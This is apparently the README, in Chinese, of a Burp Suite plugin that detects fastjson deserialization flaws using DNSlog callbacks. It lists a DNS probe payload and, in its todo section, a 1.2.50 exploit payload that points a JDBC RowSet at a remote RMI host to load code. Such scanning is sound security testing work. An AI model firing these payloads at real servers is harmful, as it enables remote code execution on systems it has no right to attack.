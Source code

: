 # fastjsondnslog_use
#### Burp 插件 探测fastjson

用dnslog来进行探测，使用到的payload为：{"@type":"java.net.Inet4Address","val":"x.dnslog.cn"}   (全版本支持 fastjson <= 1.2.72)

![Image text](https://github.com/f0ng/fastjsondnslog/blob/master/1.png)

#### 马赛克处为靶机host
### 1.可以看到哪个域名的，当请求数量多了，网络延迟，会造成A请求与B请求混淆，这样在请求的dnslog加上host可以起到唯一标识作用
### 2.可以看到请求的方法、路径
### 3.识别Content-Type类型为json才会发送请求，并不是所有请求都会发送该请求，且做到了三个请求探测

# fastjsondnslogvul1.0
#### Burp 插件 探测fastjson反序列化漏洞

用dnslog来进行探测是否有fastjson反序列化漏洞，所以需要和dnslog相通

### 1.可以看到哪个域名的，当请求数量多了，网络延迟，会造成A请求与B请求混淆，这样在请求的dnslog加上host可以起到唯一标识作用
### 2.可以看到请求的方法、路径，方便查找
### 3.~~识别Content-Type类型为json才会发送请求，并不是所有请求都会发送该请求，且做到了三个请求探测~~ 发现一些站点，如国内几个src，把json请求放在get里面的，这样就探测不到了，所以进行了改进，可以识别出来get请求里的{}格式，包括url编码的，亲测用本工具挖过两家src fastjson rce，5000R左右
### 4.不会冗余，做到请求去重，单个请求只会探测一次，其他burp的fastjson工具可能看到请求都会去探测

# todo
高版本的payload没有加进来，只针对于1.2.24和1.2.47两个payload
## 1.2.50 payload
{"@type":"java.lang.AutoCloseable","@type":"oracle.jdbc.rowset.OracleJDBCRowSet","dataSourceName":"rmi://x.x.x.x:4444/Exploit","command":"a"}
